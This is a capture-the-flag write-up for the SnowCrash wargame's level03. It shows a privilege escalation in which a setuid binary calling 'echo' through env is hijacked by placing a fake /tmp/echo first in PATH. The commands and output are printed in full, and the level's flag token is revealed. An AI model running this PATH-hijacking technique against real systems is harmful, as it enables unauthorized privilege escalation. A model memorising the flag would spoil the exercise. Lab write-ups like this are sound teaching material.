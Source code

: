 # Level 03

## Vulnerability
Privilege escalation - environment variables

## Context
In our home directory, we find a binary ```level03```

## Solution
```
level03@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
Here we see that when we run this binary, we run it with flag03 permissions (as indicated by the 's' for setuid after  '-rw').
We don't have the permissions to run ```getflag``` directly, but maybe we can use the `./level03` binary to run ```getflag``` for us. 
Let's run the file. 
```
level03@SnowCrash:~$ ./level03
Exploit me
```
We're on the right track. Let's investigate further.
```
level03@SnowCrash:~$ strings level03 | grep "Exploit"
/usr/bin/env echo Exploit me
```
It looks like ./level03 is calling ```echo``` from ```usr/bin/env```. It's calling binary that's defined by the environment.
So maybe the trick is to substitute our own ```echo``` binary, which calls ```getflag``` with ```flag03``` user permissions.

Let's confirm where the getflag is. 
```
level03@SnowCrash:~$ ls -l /bin | grep "getflag"
-rwxr-xr-x 1 root root   11833 Aug 30  2015 getflag
level03@SnowCrash:~$ cd bin; ./getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
As we suspected. Time for some redirection. 
```
level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
